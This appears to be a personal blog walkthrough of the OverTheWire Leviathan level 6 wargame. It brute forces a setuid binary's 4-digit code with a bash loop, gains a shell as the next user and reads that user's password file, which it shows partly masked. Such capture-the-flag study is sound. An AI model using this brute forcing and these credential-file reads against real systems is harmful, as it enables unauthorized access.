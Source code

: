 ```yaml
---
title: Overthewire Leviathan Level 6
date: '2022-03-02 23:40:00'
author: Michael
categories: [overthewire, overthewire-leviathan]
tags: [overthewire, leviathan]
---
```


Solution for the Overthewire.org [Leviathan level 6](https://overthewire.org/wargames/leviathan/leviathan6.html){:target="\_blank"}

## Level Goal  

There is no information for this level, intentionally.

## Walkthrough 
Login to the server using the password obtained from the previous level [Leviathan level 5]({% post_url 2022-03-02-leviathan5 %}). 

username: `leviathan6` 

```ssh
ssh leviathan6@leviathan.labs.overthewire.org -p 2223
```

Check the home directory.

```console
leviathan6@leviathan:~$ ls -al
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan7 leviathan6 7452 Aug 26  2019 leviathan6
-rw-r--r--  1 root       root        675 May 15  2017 .profile
```

There is an executable file `leviathan6` with the suid bit set.
When we run `leviathan6` it tells us it expects a 4 digit code.

```console
leviathan6@leviathan:~$ ./leviathan6 
usage: ./leviathan6 <4 digit code>
```

We can brute force this using a bash script to generate all digits from 0000 to 9999

```console
leviathan6@leviathan:~$ for i in {0000..9999}; do ./leviathan6 $i; done
```

Now just wait while all digits are tested. When the correct one is used we get a new shell.

```console
Wrong
Wrong
Wrong
Wrong
Wrong
Wrong
$
```

Using `id` we can see we have a shell as `leviathan7`. We can read the password file directly.

```console
$ id
uid=12007(leviathan7) gid=12006(leviathan6) groups=12006(leviathan6)

$ cat /etc/leviathan_pass/leviathan7
ahy*******
```